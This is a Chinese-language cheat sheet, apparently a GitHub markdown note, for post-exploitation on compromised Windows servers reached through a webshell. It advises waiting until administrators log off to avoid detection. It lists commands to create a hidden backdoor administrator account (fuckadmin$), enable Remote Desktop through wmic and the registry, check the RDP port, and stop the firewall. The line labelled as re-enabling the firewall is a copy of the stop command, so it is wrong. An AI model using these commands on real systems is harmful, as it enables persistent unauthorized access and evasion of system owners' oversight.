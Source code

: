 













#提权预处理



[TOC]






####执行命令查看在线用户





```

#执行命令,查看在线用户，如果有用户在线，就不要在做其他渗透了，防止被发现，等管理员下线之后再操作

query user

#发现管理员2015年11月27日登录之后没再登陆



```



![queryuser.png](.\\pic\\queryuser.png)







#####常用的windows命令

```

ipconfig        #显示本地IP地址

whoami			#查看webshell权限

net user fuckadmin$ 123 /add    #添加用户fuckadmin$及密码为123的用户

net localgroup administrators fuckadmin$ /add  #添加fuckadmin$到管理员组

wmic path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1    #一键开启远程桌面命令,需要administrator及以上

注册表开启3389
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f


reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

net stop sharedaccess   #关闭防火墙 

net stop sharedaccess   #开启防火墙







```



```

whoami的安装

1)下载文件whoami.exe 6.1.7600.16385文件到您的桌面上。

(2)将whoami.exe 6.1.7600.16385文件放到提示丢失的文件的程序目录下。

(3)如果第2步是行不通的。将文件whoami.exe 6.1.7600.16385到系统目录下

C:\Windows\System (Windows 95/98/Me)

C:\WINNT\System32 (Windows NT/2000)

C:\Windows\System32 (Windows XP, Vista)

C:\Windows\System32 (Windows 7/8/2008r2)

C:\Windows\SysWOW64 (Windows 7/8/2008r2)

```





####关于远程桌面端口的查看操作





#####第一种方法查看远程端口以及开远程桌面注册表命令



```

查看远程端口命令:



REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber



返回的为16进制



HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp

    PortNumber    REG_DWORD    0xd3d



#将0xd3d由16进制转为10进制为3389

```





```

开启远程桌面命令：



REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f



```







#####第二种方法查看远程桌面端口



```

#看看有没有TermService,有的话说明开启了远程桌面端口

tasklist /svc

#执行完之后PID:640知道了PID为640

```

![tasklistsvc.png](.\pic\\tasklistsvc.png)

```

然后执行

netstat -ano

tcp   PID：640所对应的端口为3389

```



![netstat-ano.png](.\\pic\\netstat-ano.png)

#####添加用户以及添加到管理员组以及远程桌面组（如果为管理员权限却登录不了远程桌面看这个）



```

#添加用户fuckadmin$及密码为123的用户

net user fuckadmin$ 123 /add

#添加fuckadmin$到管理员组

net localgroup administrators fuckadmin$ /add



#尝试一下远程桌面连接，如果连接不上，且远程桌面端口开放，那么把管理员添加到远程桌面组试一试

net localgroup "Remote Desktop Users" fuckadmin$ /add





```



